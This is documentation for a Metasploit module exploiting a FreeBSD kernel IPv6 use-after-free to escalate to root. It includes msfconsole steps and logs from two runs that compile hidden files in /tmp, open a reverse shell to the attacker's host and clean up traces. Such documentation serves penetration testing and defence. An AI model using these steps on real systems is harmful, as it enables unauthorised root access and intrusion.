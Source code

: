 ## Vulnerable Application

This module exploits a race and use-after-free vulnerability in the
FreeBSD kernel IPv6 socket handling. A missing synchronization lock
in the `IPV6_2292PKTOPTIONS` option handling in `setsockopt` permits
racing `ip6_setpktopt` access to a freed `ip6_pktopts` struct.

This exploit overwrites the `ip6po_pktinfo` pointer of a `ip6_pktopts`
struct in freed memory to achieve arbitrary kernel read/write.

This module has been tested successfully on:

* FreeBSD 9.0-RELEASE #0 (amd64)
* FreeBSD 9.1-RELEASE #0 r243825 (amd64)
* FreeBSD 9.2-RELEASE #0 r255898 (amd64)
* FreeBSD 9.3-RELEASE #0 r268512 (amd64)
* FreeBSD 12.0-RELEASE r341666 (amd64)
* FreeBSD 12.1-RELEASE r354233 (amd64)


## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc`
4. `set SESSION <SESSION>`
5. `check`
6. `run`
7. You should get a new *root* session


## Options

### NUM_SPRAY

Spray iterations (default (`256`)

### NUM_SPRAY_RACE

Race iterations (default: `32`)

### ForceExploit

Override check result (default: `false`)

### WritableDir

A directory where we can write files (default: `/tmp`)


## Scenarios

### FreeBSD 9.3-RELEASE #0 r268512 (amd64)

```
msf > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
session => 1
msf exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Using target: FreeBSD 9.3-RELEASE #0 r268512 - allproc offset: 0x1295800
[*] Writing '/tmp/.SnZgWBMA.c' (14147 bytes) ...
[*] Compiling /tmp/.SnZgWBMA.c ...
[*] Writing '/tmp/.d97xapNItz' (218 bytes) ...
[*] Launching exploit (timeout: 30s) ...
[*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
[+] Success! Executing payload...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.142:61848) at 2020-07-09 18:02:09 -0400
[+] Deleted /tmp/.SnZgWBMA.c
[+] Deleted /tmp/.SnZgWBMA
[+] Deleted /tmp/.d97xapNItz

id
uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
uname -a
FreeBSD freebsd-9-3-amd64 9.3-RELEASE FreeBSD 9.3-RELEASE #0 r268512: Thu Jul 10 23:44:39 UTC 2014     root@snap.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```

### FreeBSD 12.1-RELEASE r354233 (amd64)

```
msf > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
session => 1
msf exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Using target: FreeBSD 12.1-RELEASE r354233 - allproc offset: 0x1df7648
[*] Writing '/tmp/.V8vZ5.c' (14162 bytes) ...
[*] Compiling /tmp/.V8vZ5.c ...
[*] Writing '/tmp/.ok9laPn' (218 bytes) ...
[*] Launching exploit (timeout: 30s) ...
[*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
[+] Success! Executing payload...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.140:35808) at 2020-07-09 18:04:24 -0400
[+] Deleted /tmp/.V8vZ5.c
[+] Deleted /tmp/.V8vZ5
[+] Deleted /tmp/.ok9laPn

id
uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
uname -a
FreeBSD freebsd-12-1-amd64 12.1-RELEASE FreeBSD 12.1-RELEASE r354233 GENERIC  amd64
```

